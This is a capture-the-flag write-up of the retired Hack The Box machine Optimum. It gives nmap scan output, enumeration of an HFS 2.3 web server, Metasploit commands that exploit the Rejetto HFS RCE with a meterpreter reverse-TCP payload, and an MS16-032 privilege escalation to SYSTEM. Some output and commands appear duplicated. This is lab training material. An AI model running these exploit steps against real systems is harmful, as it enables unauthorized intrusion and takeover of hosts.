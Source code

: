 Type: #windows
Level: #easy
Link: <https://www.hackthebox.eu/machines/Optimum>
Tags : #TCM
Tools: [[NMAP]] [[METASPLOIT]] 

## Pentesting of retired HTB VM Optimum
### Following walkthrougt of TCM on udemy

### Scanning
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 05:51 EDT
Nmap scan report for 10.10.10.8
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2012|7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   46.04 ms 10.10.14.1
2   44.08 ms 10.10.10.8Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-05 05:51 EDT
Nmap scan report for 10.10.10.8
Host is up (0.040s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2012|7|8|Phone|2008|8.1|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   46.04 ms 10.10.14.1
2   44.08 ms 10.10.10.8
```
### Enumeration

For now we have a port 80 open, which probably mean web server, a quick check to the IP address gave a a web interface for a web file server :

![a711122a383cc44646d3150fb552b032.png](a711122a383cc44646d3150fb552b032.png)
Some information disclosure : `HttpFileServer version 2.3`

The login button redirect to an login popup on this url : `http://10.10.10.8/~login`

The `Get list` button gave me a URL that seems exploitable for injection `http://10.10.10.8/?tpl=list&folders-filter=\&recursive`

searchsploit show an RCE available on th 2.3 version :

![38817d3559a284ae5f64d853394d10f2.png](38817d3559a284ae5f64d853394d10f2.png)

### Exploitation

Going from here we can try via metasploit the RCE :

```
msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_execuse exploit/windows/http/rejetto_hfs_exec
options
set RHOST = 10.10.10.8
set payload windows/meterpreter/reverse_tcp
options
run
```
And we got a reverse shell :

![53e5bd5bf70eca80d5171d291300b003.png](53e5bd5bf70eca80d5171d291300b003.png)

It appears that we are not admin :
```
getuid
Server username: OPTIMUM\kostas
```
So we will need to do some priv-es.

Using suggester :
```
search suggester
use post/multi/recon/local_exploit_suggesterpost/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.8 - Collecting local exploits for x86/windows...
[*] 10.10.10.8 - 38 exploit checks are being tried...
[+] 10.10.10.8 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.8 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > run
```
Let's try ms16_032 :
```
use exploit/windows/local/ms16_032_secondary_logon_handle_privescuse exploit/windows/local/ms16_032_secondary_logon_handle_privesc
options
set session 1
run
```
Privesc seems to work, doing a getuid gave me "System"

Going back to the target shell I can access the root flag